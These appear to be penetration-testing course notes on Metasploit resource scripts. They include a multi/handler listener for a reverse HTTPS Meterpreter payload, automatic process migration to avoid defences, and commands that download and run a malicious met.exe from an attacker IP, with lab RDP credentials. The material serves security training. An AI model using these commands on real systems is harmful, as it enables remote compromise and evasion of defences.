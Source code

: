 - chain together a series of Metasploit console commands and Ruby code
- Example:
	- listener.rc
		- ```use exploit/multi/handler
			set PAYLOAD windows/meterpreter_reverse_https
			set LHOST 192.168.119.4
			set LPORT 443```
	- _AutoRunScript_ option
		- automatically execute a module after a session was created
			- use the _post/windows/manage/migrate_ module. This will cause the spawned Meterpreter to automatically launch a background _notepad.exe_ process and migrate to it
			- Automating process migration helps to avoid situations where our payload is killed prematurely either by defensive mechanisms or the termination of the related process.
		- ```set AutoRunScript post/windows/manage/migrate ```
	- set _ExitOnSession_ to _false_
		- ensure that the listener keeps accepting new connections after a session is created.
		- ```set ExitOnSession false```
	- **show advanced**
		- We can also configure advanced options such as _ExitOnSession_ in multi/handler and _AutoRunScript_ in payloads by using **show advanced** within the activated module or selected payload.
	- Run in background
		- `run -z -j`
	- Run script
		- ```sudo msfconsole -r listener.rc```
	- initial setup for example
		- Let's connect to the BRUTE2 machine via RDP with user _justin_ and password _SuperS3cure1337#_, start PowerShell, download the malicious Windows executable **met.exe** that we already used in previous sections, and execute it.
		- `iwr -uri http://192.168.119.4/met.exe -Outfile met.exe`
		- `.\met.exe`
- Already provided scripts in **scripts/resource** from Metasploit
	- ```ls -l /usr/share/metasploit-framework/scripts/resource```